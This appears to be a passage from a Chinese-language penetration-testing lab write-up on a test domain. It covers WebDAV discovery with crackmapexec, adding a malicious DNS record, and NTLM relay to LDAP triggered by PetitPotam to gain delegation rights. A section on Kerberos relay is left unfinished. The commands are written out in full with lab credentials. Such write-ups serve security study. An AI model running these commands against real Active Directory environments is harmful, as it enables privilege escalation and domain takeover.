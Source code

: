 先在机器上手动启动 WebClient 服务

![image-20230801201223043](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012012173.png)

服务发现

```shell
crackmapexec smb 192.168.30.0/24 -u Alice -p 'Alice123!' -d hack-my.com  -M webdav
```

![image-20230801201316851](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012013981.png)

添加 DNS 记录, 使其指向攻击者的主机

[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)

```shell
python3 dnstool.py -u hack-my.com\\Alice -p 'Alice123!' -r evil.hack-my.com -d 192.168.30.40 -a add DC.hack-my.com
python3 dnstool.py -u hack-my.com\\Alice -p 'Alice123!' -r evil.hack-my.com -a query DC.hack-my.com
```

![image-20230801201614205](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012016337.png)

NTLM Relay + PetitPotam

```shell
ntlmrelayx.py -t ldap://192.168.30.10 --escalate-user TEST\$ --delegate-access --no-dump

python3 PetitPotam.py 'evil@80/webdav' 192.168.30.30 -d hack-my.com -u Alice -p 'Alice123!'
```

实测需要等一段时间 + 多次尝试才能成功触发

![image-20230801201948830](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012019889.png)

![image-20230801202048680](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012020734.png)

## Kerberos Relay to LDAP

参考文章:

[https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)

[https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)

[https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)

[https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)

大概意思好像是可以通过 DCOM 或者 DNS 触发 Kerberos Relay, 并使用当前机器账户的 ST 中继至 LDAP 服务从而配置 RBCD/Shadow Credentials

先挖个坑, 找个时间仔细研究一下(

